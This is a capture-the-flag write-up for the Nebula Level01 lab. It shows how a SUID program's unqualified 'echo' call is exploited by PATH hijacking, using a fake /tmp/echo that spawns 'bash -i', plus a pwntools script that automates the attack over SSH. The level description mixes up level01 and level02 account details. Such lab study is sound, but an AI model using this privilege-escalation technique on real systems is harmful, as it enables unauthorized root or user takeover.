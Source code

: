 # Level01

#### Description

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
> To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

***

#### Solution

First of all let's switch on to the directory where those files were present.

```bash
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -la
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
```

`flag01` is the binary on which SUID bit has set.

Checking source code revealed a vulnerability - PATH hijacking.

```bash
system("/usr/bin/env echo and now what?");
```

Binary is not using absolute path for `echo` command and it can be exploitable by making our own `echo` binary somewhere else and add that directory path to PATH environment.

Make a new echo binary in `/tmp` folder and give it executable permission.

```bash
level01@nebula:/home/flag01$ cd /tmp
level01@nebula:/tmp$ echo -e '#!/bin/bash\nbash -i' > echo
level01@nebula:/tmp$ ls
echo  VMwareDnD  vmware-root
level01@nebula:/tmp$ chmod +x echo
```

Add `/tmp` directory path to PATH environment variable.

```bash
level01@nebula:/tmp$ export PATH=/tmp:$PATH
level01@nebula:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

This will call that echo binary we created in `/tmp` folder instead of the original one.

```bash
level01@nebula:/tmp$ /home/flag01/flag01
flag01@nebula:/tmp$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
flag01@nebula:/tmp$ getflag
You have successfully executed getflag on a target account
```

Successfully got flag01 user's account shell and completed this level.

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level01', password='level01')

# start a remote shell
terminal = session.shell()

# Creating a fake echo binary on /tmp directory
binary_creation_cmd = "echo -e '#!/bin/bash\nbash -i' > /tmp/echo"
terminal.sendline(binary_creation_cmd)
terminal.sendline("chmod +x /tmp/echo")
print("Successfully created fake /tmp/echo binary")

# Exporting /tmp directory to PATH environment variable
terminal.sendline("export PATH=/tmp:$PATH")

# Executing target binary
terminal.sendline('/home/flag01/flag01')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

***
